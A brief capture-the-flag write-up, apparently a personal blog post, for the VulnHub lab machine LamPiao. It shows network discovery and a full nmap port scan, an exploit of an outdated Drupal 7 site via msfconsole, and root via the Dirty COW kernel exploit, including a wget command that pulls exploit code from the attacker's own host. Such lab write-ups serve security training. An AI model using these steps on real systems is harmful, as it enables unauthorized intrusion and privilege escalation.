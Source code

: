 ```yaml
---
title: WRITE-UP LamPiao
date: 2024-08-05 00:01:01 +0700
categories: [write up, vulnhub, red team, oscp]
tags: [vulnhub]     # TAG names should always be lowercase
---
```

# Write-Up LamPiao

## 1. Enumeration
i used netdicover to see where is my lab

```terminal
sudo netdiscover
```
![alt text](/assets/img/lampiao/lampiao_netdiscover.png)
ip: ```192.168.100.21```

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.100.21
```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s

![alt text](/assets/img/lampiao/lampiao_nmap.png)

## 2. Post Exploitation
i check web using drupal7 outdate i decided exploit using ```msfconsole```
![alt text](/assets/img/lampiao/lampiao_web.png)


## 3. Privilage Escalation
after inside i using 
``` uname -a ```
and see lab using linux kernel 4.4.0-31
so i decide using dirtycow

```
wget http://myiplab/40847.cpp
```
![alt text](/assets/img/lampiao/lampiao_root.png)

complie and get the root :# simple lab GG
